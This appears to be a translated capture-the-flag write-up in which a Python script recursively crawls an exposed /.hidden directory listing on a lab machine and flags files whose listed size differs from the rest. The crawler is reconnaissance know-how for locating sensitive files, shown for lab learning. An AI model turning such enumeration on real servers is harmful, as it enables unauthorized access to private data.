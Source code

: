 =======
### Challenge

Here's the translation of your text into English:

"I have a /.hidden file with a lot of folders and subfolders, where files with sensitive data may be located. I ran a script that checks each folder and subfolder until it finds files with sensitive data.

I started with checking the file size, but it didn't work because it was a string.

```python
Copy code
from bs4 import BeautifulSoup
import requests
from urllib.parse import urljoin

def is_file_empty(url):
    req = requests.get(url)
    return len(req.content) == 0

def list_files_in_directory(url, current_path=''):
    req = requests.get(url)
    page = BeautifulSoup(req.text, 'html.parser')
    for link in page.find_all('a'):
        href = link['href']
        if href == '../':
            continue
        if href.endswith('/'):
            new_url = urljoin(url, href)
            new_path = urljoin(current_path, href)
            list_files_in_directory(new_url, new_path)
        else:
            file_name = href
            file_info = link.next_sibling.strip().split()
            file_size = file_info[-1]
            file_url = urljoin(current_path, file_name)
            if file_size != "34":
                print(f"Flag found: {file_url}")
            #     print(file_url)
url = 'http://192.168.56.101/.hidden/'
list_files_in_directory(url)
```
=======
### Vulnerability

The /.hidden folder is often used to hide files in the file system but does not provide real security. There is a risk of unauthorized access and security vulnerabilities."
